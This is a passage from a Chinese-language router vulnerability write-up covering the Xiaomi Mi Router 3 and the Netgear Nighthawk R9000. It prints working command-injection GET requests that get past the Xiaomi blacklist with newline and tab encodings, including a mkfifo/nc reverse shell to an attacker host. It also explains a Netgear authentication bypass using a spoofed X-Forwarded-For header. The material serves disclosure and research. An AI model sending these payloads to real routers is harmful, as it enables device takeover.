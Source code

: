 虽然Unix管道可以作为一种安全控制机制，避免传统的命令注入攻击，但用户数据还是会发送到目标服务，该服务会在设备的底层系统shell上执行任意命令。将我们发现的OS CMDi以及CSRF漏洞结合起来后，我们就可以通过尽可能少的用户交互来远程攻击这款设备。

### <a class="reference-link" name="Xiaomi%20Mi%20Router%203"></a>Xiaomi Mi Router 3

Xiaomi是中国市场中非常受欢迎的一个品牌，该品牌提供了Mi Router 3这款SOHO路由器。路由器管理功能基于Lua实现，采用类似MVC（Model-View-Controller）的架构。在评估这款设备时，我们首先分析了请求的路由机制，然后访问设备已实现的每个路由，寻找漏洞。

按照这些方法，我们发现在`luci/controller/api/misns.lua`中的`/cgi-bin/luci/;stok=/api/misns/wifi_access`这个URL端点会使用GET URL中传入的参数，将参数传递给一个shell命令。如下所示，我们演示了发往该端点的典型请求参数，该请求中包含用户的会话令牌以及待添加到`wifi_access`中的MAC地址。

```
GET /cgi-bin/luci/;stok=/api/misns/wifi_access?mac=&amp;sns=&amp;grant=1&amp;guest_user_id=guid&amp;timeout=timeout
```

该请求对应的控制器中包含一个辅助函数，可以确保这些参数非空（`nil`）或者不包含位于黑名单中的某些shell元字符（这些字符可以用来穿透shell参数上下文）。Mi Router设定的黑名单字符如下所示：

```
[`;|$&amp;`{``}` ]
```

我们可以使用换行符（`%0A`）来替代分号以及制表符（`%09`），从而绕过黑名单检查。利用这些字符，攻击者可以将命令注入`sns`参数。简单的GET请求如下所示：

```
GET /cgi-bin/luci/;stok=88de3a3ba0e9a64f50124fbf669f088f/api/misns/wifi_access?mac=00:00:00:00:00:00&amp;sns='%0atouch%09/tmp/ise%0a%23&amp;grant=1&amp;guest_user_id=guid&amp;timeout=timeout HTTP/1.1
```

这种字符绕过技术表明攻击者可以规避Xiaomi在设备上部署的一些安全控制机制。除了前面讨论的漏洞之外，这个端点其实还存在命令注入漏洞，并且不受字符黑名单限制。由于web应用逻辑中存在一个bug，设备永远不会检查`timeout`参数是否存在黑名单字符。这样攻击者就可以使用任意命令注入payload，不用考虑字符集问题。如下GET请求中，攻击者可以生成反弹shell，连接到攻击者的主机（`192.168.31.82:9001`）。

```
GET /cgi-bin/luci/;stok=d714f92968bb8cc6466f87c8618dfc30/api/misns/wifi_access?mac=00:00:00:00:00:00&amp;sns=sns&amp;grant=1&amp;guest_user_id=guid&amp;timeout=’%3bmkfifo+/tmp/p%3bcat+/tmp/p|/bin/sh+-i+2&gt;%261|nc+192.168.31.82+9001+&gt;/tmp/p+%23 HTTP/1.1
Host: 192.168.31.1
```

为了绕过Xiaomi的安全控制机制，我们首先判断哪些字符被禁用，列出了shell能够接受的其他元字符，最终将黑名单中的字符替换成其他能被等效解析的字符。如前文所示，我们也在其他端点中找到了编程逻辑漏洞，可以让我们完全绕过黑名单。

### <a class="reference-link" name="Netgear%20Nighthawk%20R9000"></a>Netgear Nighthawk R9000

NETGEAR Nighthawk X10 R9000是一款高端旗舰路由器，支持多种流量管理及其他管理功能。该设备的主要用户接口为web应用，但也提供了基于SOAP的移动应用。管理员可以管理常见的网络设置、查看设备日志、管理QoS以及其他各种设置。

根据我们对移动应用的分析，我们发现目标应用会解析`X-Forwarded-For`这个HTTP头。通常情况下，各种负载均衡方案会利用这个头来将客户端的IP地址投递给下游服务，但如果没有正确使用就可能导致出现意外问题。这款设备似乎会将头部中的内容当成客户端的实际IP地址，覆盖之前设置的任何值。该设备同样还会将来自自身IP的所有请求加入白名单中，内部请求不经过身份认证就能直接使用API。当结合这两点后，攻击者就可以绕过SOAP API上的所有认证检查机制，这是因为客户端可以控制`X-Forwarded-For`这个HTTP头，并且设备没有在任何类型的负载均衡器或者反向代理的保护之下。此外，`X-Forwarded-For`头也不是一个被禁用的头部字段。因此，攻击者可以在JavaScript中通过XHR请求发送该字段值。

在初步测试和扫描过程中，我们还找到了web界面中虽然隐藏但又描述详实的一个debug功能。`/debug.htm`是非常有用的一个页面，可以让经过身份认证的用户运行telnet服务端，获得root shell访问权限。这并不是一个漏洞，因为想实现这种访问方式需要提供管理员的用户名及密码，但该功能的确能起到很好效果，帮助我们进一步检测和分析这款设备。通过这个切入点，我们可以对web应用进行静态分析，定位可能存在漏洞的代码路径，然后对目标代码路径进行实时分析。
